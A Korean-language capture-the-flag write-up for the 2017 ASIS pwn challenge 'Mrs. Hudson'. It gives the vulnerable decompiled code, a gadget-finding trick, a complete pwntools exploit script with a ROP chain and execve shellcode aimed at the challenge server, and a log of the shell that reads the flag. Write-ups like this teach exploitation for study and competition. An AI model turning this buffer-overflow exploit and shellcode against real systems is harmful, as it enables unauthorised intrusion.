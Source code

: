 # 2017 Asis - [PWN] Mrs. Hudson

## Key words

- 64bit ELF
- 64bit ROP Gadget

## Solution

문제는 다음과 같습니다.

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [sp+10h] [bp-70h]@1

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("Let's go back to 2000.");
  return __isoc99_scanf("%s", &v4);
}
```

NX가 꺼져 있기 때문에 쉘 코드를 만들고 그 쪽으로 뛰면 될 것 같습니다. 64비트 ELF는 ROP 체인 구성시 pop rdi, pop rdi 등의 가젯이 필요 합니다.

그런데 바이너리를 보면 이 가젯이 존재 하지 않는데 이는 약간의 트릭으로 찾을 수 있습니다.

```
.text:00000000004006F0                 pop     r14
.text:00000000004006F2                 pop     r15
.text:00000000004006F4                 retn
```

이런 가젯은 기본적으로 존재 하는데 이 가젯을 통해 pop rdi, ret; pop rsi, ret; 의 가젯을 구할 수 있습니다.

```
.text:00000000004006F3                 pop     rdi
.text:00000000004006F4                 retn

.text:00000000004006F1                 pop     rsi
.text:00000000004006F2                 pop     r15
.text:00000000004006F4                 retn
```

이를 이용하여 64bit ROP 체인을 구성할 수 있는데 마지막으로 scanf 쪽으로 뛰어 쉘 코드를 BSS 영역에 쓰고 이 쪽으로 점프 할수 있도록 페이로드를 구성합니다.

## Solution Code

```python
from pwn import *
import sys

p = None

if len(sys.argv) == 2:
    p = remote("178.62.249.106", 8642)
else:
    p = process("./mrs")

bss = 0x601100
pop_rdi_ret = 0x4006f3
pop_rsi_r15_ret = 0x4006f1
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
print p.recv()

payload = "A"*0x70 + p64(bss) + p64(pop_rsi_r15_ret) + p64(bss) + p64(0) + p64(0x400676) + p64(bss) + p64(bss)
p.sendline(payload)

p.sendline(p64(bss) + p64(bss+16) + shellcode)

p.interactive()
```

## Result

```
tbkim@ubuntu:~/ctfing/2017_asis/pwn$ python sol_mrs.py 1
[+] Opening connection to 178.62.249.106 on port 8642: Done
Let's go back to 2000.
[*] Switching to interactive mode

$ cd /home
$ ls
frontofficemanager
$ cd frontofficemanager
$ ls
flag
hudson_3ab429dd29d62964e5596e6afe0d17d9
$ cat flag
ASIS{W3_Do0o_N0o0t_Like_M4N4G3RS_OR_D0_w3?}
```